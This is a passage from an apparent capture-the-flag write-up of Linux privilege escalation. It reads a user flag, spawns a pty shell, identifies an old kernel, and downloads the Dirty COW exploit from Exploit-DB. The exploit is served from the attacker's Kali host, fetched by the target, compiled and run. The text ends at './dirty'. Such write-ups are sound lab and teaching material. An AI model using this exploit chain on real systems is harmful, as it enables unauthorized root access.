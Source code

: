 First flag is in the home direcotory of `frank` user. 

{% highlight text %}
$ cd home
$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 Apr 13 16:06 .
drwxr-xr-x 22 root  root  4096 Apr 13 16:10 ..
drwxr-xr-x  3 frank frank 4096 Apr 14 07:37 frank
$ cd frank
$ ls -la
total 36
drwxr-xr-x 3 frank frank 4096 Apr 14 07:37 .
drwxr-xr-x 3 root  root  4096 Apr 13 16:06 ..
-rw------- 1 frank frank   26 Jul 31 07:44 .bash_history
-rw-r--r-- 1 frank frank  220 Apr 13 16:06 .bash_logout
-rw-r--r-- 1 frank frank 3353 Apr 13 16:06 .bashrc
drwxr-xr-x 2 frank frank 4096 Apr 13 16:07 .cache
-rw-r--r-- 1 frank frank  675 Apr 13 16:06 .profile
-rw-r--r-- 1 frank frank    0 Apr 13 16:08 .sudo_as_admin_successful
-rw-r--r-- 1 frank frank   29 Apr 14 07:37 PE.txt
-rw-r--r-- 1 frank frank   33 Apr 14 07:36 user.txt
$ cat user.txt
4795aa2a9be22fac10e1c25794e75c1b
{% endhighlight %}

Now we have to get to the higher privileges. During usual enumeration, I've noticed that the only unusal thing in this system is outdated kernel.

{% highlight text %}
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/home/frank$ cat PE.txt
cat PE.txt
Try it as fast as you can ;)

www-data@ubuntu:/$ uname -a
uname -a
Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
{% endhighlight %}

Now we just have to exlpoit the system using [this exploit](https://www.exploit-db.com/exploits/40839/).

{% highlight text %}
root@kali:~# wget https://www.exploit-db.com/raw/40839/
--2018-08-19 11:49:45--  https://www.exploit-db.com/raw/40839/
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/plain]
Saving to: ‘index.html’

index.html          100%[===================>]   4.89K  --.-KB/s    in 0s      

2018-08-19 11:49:46 (43.5 MB/s) - ‘index.html’ saved [5006/5006]


root@kali:~# mv index.html exploit.c
root@kali:~# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
10.0.0.14 - - [19/Aug/2018 11:51:08] "GET /exploit.c HTTP/1.0" 200 -

www-data@ubuntu:/tmp$ mv exploit.c dirty.c                
mv exploit.c dirty.c
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt


www-data@ubuntu:/tmp$ ./dirty